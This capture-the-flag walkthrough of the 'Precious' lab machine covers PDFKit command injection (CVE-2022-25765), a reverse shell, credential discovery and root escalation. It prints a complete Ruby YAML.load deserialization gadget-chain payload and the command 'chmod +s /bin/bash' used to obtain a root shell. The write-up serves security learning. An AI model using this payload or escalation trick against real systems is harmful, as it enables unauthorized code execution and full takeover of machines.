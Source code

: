 ```yaml
---
description: PDFkit and Deserialization.
---
```


# Precious

## Gaining Access

**Nmap Scan:**

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

Seems like a web vulnerability exploit kinda machine.

### PDFKit

<figure><img src="../../../.gitbook/assets/image (10) (2) (3).png" alt=""><figcaption></figcaption></figure>

Website to PDF ind of functions run on plugins, and depending on the language used to do this conversion (JS, PHP), there are exploits for them.

For instance, we can redirect this website to our own hosted HTTP server and convert that. Alternatively, attempts can be made in order to exploit the website via LFI to read the files on the machine.

For enumeration purposes, I began by generating a PDF and downloading it to my machine from this website. We can enumerate the PDF to see if there is a particular software being used.

<figure><img src="../../../.gitbook/assets/image (11) (2) (2).png" alt=""><figcaption></figcaption></figure>

This version of pdfkit is vulnerable to RCE using CVE-2022-25765. There are public exploit scripts available for this.

{% embed url="https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795" %}

Following the exploit, we can test to see if we indeed have RCE:

<figure><img src="../../../.gitbook/assets/image (8) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

Works! Now we just need to gain a reverse shell. I used a simple bash shell to do so.

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (2) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Getting Henry

When we gain access as the user ruby, the flag is not there. There is another user named henry in this machine.

<figure><img src="../../../.gitbook/assets/image (7) (1) (2) (1) (3).png" alt=""><figcaption></figcaption></figure>

We don't have permissions to read the flag from henry's directory. However, when poking around ruby's directory and looking into the .bundle directory, we can find henry's password.

<figure><img src="../../../.gitbook/assets/image (6) (3) (1).png" alt=""><figcaption></figcaption></figure>

With this, we can SSH in as henry for a better shell. Then, we can grab the user flag.

### Ruby Deserialization

Checking sudo privileges, we find that henry is able to execute the following:

<figure><img src="../../../.gitbook/assets/image (4) (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

Intriguing. The script is as shown below:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

From the looks of this script, YAML.load function is being used. There are certain deserialization exploits for this. The attack is known as 'YAML Deserialization'

Hacktricks has a relevant page covering it.

{% embed url="https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization" %}

When searching along the lines of Ruby deserialisation attacks through YAML.load, I found this article which included a PoC.

{% embed url="https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/" %}

How this works is thorugh implementing a gadget chain that was previously used with other Ruby YAML exploits. This basically gives us RCE over the machine as root.&#x20;

We just need to put the malicious YAML file in some writeable place and execute it. Works because the script does not check for an absolute path. Here's the PoC:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

I changed the command to `chmod +s /bin/bash` and tried it out. Worked!

<figure><img src="../../../.gitbook/assets/image (15) (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
